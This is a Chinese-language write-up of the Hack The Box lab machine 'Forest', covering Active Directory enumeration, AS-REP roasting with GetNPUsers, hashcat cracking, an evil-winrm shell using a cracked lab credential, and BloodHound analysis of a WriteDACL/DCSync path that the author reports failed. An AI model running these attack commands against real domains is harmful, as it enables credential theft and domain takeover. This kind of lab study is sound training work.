 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting /滥用 WriteDACL / DCSync / Bloodhound
---
```


# ✔️ Forest

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA forest 10.129.154.107 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 把IP地址和域名写入/etc/hosts文件：

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 通过之前的Nmap扫描结果发现并没有Web应用的相关开放端口，所以直接尝试各种匿名登录，SMB可以登录成功但是无收获，RPC不可以无密码登录：

```bash
smbclient -N -L 10.129.154.107
rpcclient 10.129.154.107
```

* 使用enum4linux对目标进行枚举，发现了目标系统上的用户名及其用户信息、密码策略、域组成员信息：

```bash
enum4linux 10.129.154.107
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 将这些用户名收集起来，试试哪些是域内有效的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/7 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 31个用户名跑出来18个有效，再把这18个用户名汇总成一个users.txt文件：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Impacket的脚本GetNPUsers.py尝试获取每个用户的哈希值：

```bash
./GetNPUsers.py 'htb.local/' -usersfile users.txt -format hashcat -outputfile hashes.txt -dc-ip 10.129.154.107
```

<figure><img src="../../.gitbook/assets/13 (10).png" alt=""><figcaption></figcaption></figure>

* 已找到了用户svc-alfresco 帐户的哈希值，将该哈希值保存为hashes.txt文件，然后查找该哈希对应的模式，hashcat暴力破解其明文密码：

```bash
hashcat -m 18200 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 至此，以获取到一个有效凭证：<mark style="color:red;">**svc-alfresco:s3rvice**</mark>
* 利用这个有效凭证和evil-winrm，尝试get shell：

```bash
evil-winrm -i htb.local -u svc-alfresco -p 's3rvice' 
```

* 成功登录，并找到了第一个flag：

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (7).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 按惯例上传winPEAS进行信息枚举，但是没有什么特别的收获：

```bash
# evil-winrm:
upload /root/Documents/HTB-AD/forest/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound进行信息收集，放入bloodhound中分析各个用户、组成员等之间的关系：

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

* 当前已控制的账户是svc-alfresco，查看最短到域管的路径发现，当前账户属于Service Accounts的成员，而Service Accounts又属于Privileged IT Accounts的成员，Privileged IT Accounts是Account Operators的成员，最后Account Operators的成员又是属于Exchange Windows Permissions的成员：

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 从bloodhound列举出的信息中可知Exchange Windows Permission在当前域中是有WriteDACL权限的，该权限可以允许用户修改对象的访问控制列表，这意味着拥有这个权限的账户可以自己赋予自己/其他账户DCSync同步权限。

{% hint style="info" %}
本例提权过程中，一种方式是赋予当前以控制的账户svc-alfrescoDCSync同步权限，还有一种是创建一个新的用户账户赋予它DCSync同步权限，已确定成功将相关账户加入到了Exchange Windows Permissions组，但是在用secretsdump提取域内用户账户的哈希密码时，两种均失败，暂不清楚原因。
{% endhint %}

*

{% hint style="info" %}
本例机器，在GET SHELL阶段常规的枚举尝试就有收获。提权过程太艰难了，以为是自己方向搞错了，看了网上提示后发现没有错，各种方式都尝试过了，还是一直报错，暂不清楚原因，后续再更新。本例Bloodhound分析过程没有以前的机器简单。

（本例中途重置过IP地址有变化，不影响其过程实现）
{% endhint %}

